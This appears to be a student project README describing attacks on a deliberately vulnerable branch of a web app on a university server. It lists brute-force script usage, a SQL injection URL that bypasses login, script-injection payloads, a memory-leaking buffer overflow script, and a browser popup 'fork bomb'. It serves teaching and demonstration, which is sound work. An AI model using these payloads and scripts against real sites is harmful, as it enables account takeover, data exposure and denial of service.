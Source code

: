 ## Vulnerability Outline
**To exploit the vulnerabilities outlined below, utilize the secret-keeper-not-secure branch**

### Brute-Force Attack
**brutePass.sh**
* BrutePass takes advantage of the PUT login to test username and password combos
* Usernames are provided by the script user
* Passwords are taken from passwords.txt which has the 10000 top passwords

**Directions to use brutePass.sh:**
1. Place brutePass.sh and passwords.txt in the same directory
2. Open a connection to osu servers (do not use flip3, or the same server as the site is hosted if not flip3)
3. Open the directory with brutePass.sh
4. You may need to give yourself permission to run the script: chmod 777 brutePass.sh

**To use the script:** ./brutePass.sh -g username URL

**Examples:**
* ./brutePass.sh -g Kyle flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Katie flip3.engr.oregonstate.edu:6061
* ./brutePass.sh -g Admin flip3.engr.oregonstate.edu:6061


### SQL Injection Attack
**HTML SQL Injection:**
* SQL code can be inserted into the URL as placeholders are not used for MySQL credential checks
* Use the following URL to access users' information without their credentials
```
http://flip3.engr.oregonstate.edu:6061/user/*%20OR%20ALL&*%20OR%20ALL
```

### HTML Injection Attack
**To inject a script:**
1. Sign into any existing user account
2. Add a new record, using the following as the value for one field in the form: 
```
>"&amp;gt;<script>alert("Warning: This site is vulnerable to an attack")</script>
```
3. Note the popup alert warning of possible attack


### Buffer Overflow Attack
**bufferExploit.sh**
* BufferExploit takes advantage of the buffer used on record names when inserting a new record
* A curl POST is sent with a number value, allocating empty space instead of saving a string value
* Overflow memory is then accessed on the user page as a new record with the name being the data

**Directions to use bufferExploit.sh:**
1. The data for the Kyle profile has been hardcoded into the attack code (the attacker needs a profile and their profile ID)
2. Run the script and access memory data at flip3.engr.oregonstate.edu:6061/user/Kyle&12345
3. Repeatly run the script to get chunks of memory to later decode and decipther

**To use the script:** ./bufferExploit.sh


### Denial of Service (DoS) Attack
**Fork Bomb:**
1. Make sure that the active internet browser will not block popups
2. Add a new record, using the following as the value for the record name:
*  Change URL to link to user profile in use
```
>"&amp;gt;<script>
function fork() {
  	const win = window.open("http://flip3.engr.oregonstate.edu:6061/user/Kyle&12345");
	setTimeout(fork(), 1);
}
fork(); </script>
```
3. Select the name of the record from the record table to intitate fork bomb
* **WARNING: This will slow down the user computer**
* This does not bring down the school server (thankfully) rather it illustrates how to slow down a weak server
* The Kyle account has this record already saved and ready to initiate 

